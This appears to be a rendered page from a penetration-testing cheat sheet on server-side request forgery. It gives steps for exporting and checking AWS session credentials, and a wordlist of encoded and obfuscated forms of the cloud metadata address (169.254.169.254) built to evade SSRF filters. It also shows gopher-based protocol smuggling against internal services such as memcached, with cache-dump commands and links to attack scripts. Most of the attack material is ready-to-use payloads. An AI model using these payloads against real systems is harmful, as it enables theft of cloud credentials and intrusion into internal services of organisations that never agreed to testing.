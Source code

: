 -> Export credentials
```
export AWS_ACCESS_KEY_ID=<access_key_id>   
export AWS_SECRET_ACCESS_KEY=<secret_access_key>  
export AWS_SESSION_TOKEN=<session_token>  
```
-> Test obtaining the configured identity information
```
aws sts get-caller-identity
```
-> Performing enumeration and exploration in the cloud environment
```
In construction
```

### Wordlist ssrf_meta_bypass
```
169.254.169.254.nip.io
http://169.254.169.254.nip.io
%31%36%39%2e%32%35%34%2e%31%36%39%2e%32%35%34%2e%6e%69%70%2e%69%6f
http://%31%36%39%2e%32%35%34%2e%31%36%39%2e%32%35%34%2e%6e%69%70%2e%69%6f
169.254.169.254
http://169.254.169.254
%68%74%74%70%3a%2f%2f%31%36%39%2e%32%35%34%2e%31%36%39%2e%32%35%34
http://%68%74%74%70%3a%2f%2f%31%36%39%2e%32%35%34%2e%31%36%39%2e%32%35%34
0251.0376.0251.0376	
http://0251.0376.0251.0376
%30%32%35%31%2e%30%33%37%36%2e%30%32%35%31%2e%30%33%37%36
http://%30%32%35%31%2e%30%33%37%36%2e%30%32%35%31%2e%30%33%37%36
0xA9FEA9FE
http://0xA9FEA9FE
%30%78%41%39%46%45%41%39%46%45
http://%30%78%41%39%46%45%41%39%46%45
2852039166
http://2852039166
%32%38%35%32%30%33%39%31%36%36
http://%32%38%35%32%30%33%39%31%36%36
⑯⑨。②⑤④。⑯⑨｡②⑤④
http://⑯⑨。②⑤④。⑯⑨｡②⑤④
%6f%68%02%61%64%63%02%6f%68%61%61%64%63%2f
http://%6f%68%02%61%64%63%02%6f%68%61%61%64%63%2f
```
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/wordlists/ssrf_meta_bypass.txt  

### SSRF - Protocol Smuggling

-> HTTP-Based(Elastic, CouchDB, Mongodb, docker),etc.  
-> Text-Based(ftp(21), smtp(587), zabbix(10051), mysql(3306), redis(6379), memcached(11211), etc.  

-> gopher  
`gopher://127.0.0.1:port/_`

#### Scripts
-> edit memcached.py  
```
stats items  
stats cachedump <slab class> <number of items to dump>  
get <item>
``` 
https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/ssrf_protocol_smuggling/memcached.py 
